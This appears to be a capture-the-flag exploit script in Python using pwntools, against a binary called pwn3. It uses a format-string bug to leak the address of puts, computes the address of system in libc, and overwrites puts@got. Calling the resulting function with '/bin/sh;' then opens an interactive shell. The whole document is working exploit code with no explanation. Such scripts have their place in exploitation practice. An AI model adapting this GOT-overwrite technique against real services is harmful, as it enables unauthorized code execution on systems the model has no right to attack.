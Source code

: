 ```python
##password

password()

## get the addr of puts
puts_got = pwn3.got['puts']

log.success('puts got : ' + hex(puts_got))

put('1111', '%8$s' + p32(puts_got))

puts_addr = u32(get('1111')[:4])



## get addr of system

libc = LibcSearcher("puts", puts_addr)

system_offset = libc.dump('system')

puts_offset = libc.dump('puts')

system_addr = puts_addr - puts_offset + system_offset

log.success('system addr : ' + hex(system_addr))



## modify puts@got, point to system_addr

payload = fmtstr_payload(7, {puts_got: system_addr})

put('/bin/sh;', payload)

sh.recvuntil('ftp>')

sh.sendline('get')

sh.recvuntil('enter the file name you want to get:')

##gdb.attach(sh)

sh.sendline('/bin/sh;')



## system('/bin/sh')

show_dir()

sh.interactive()

```
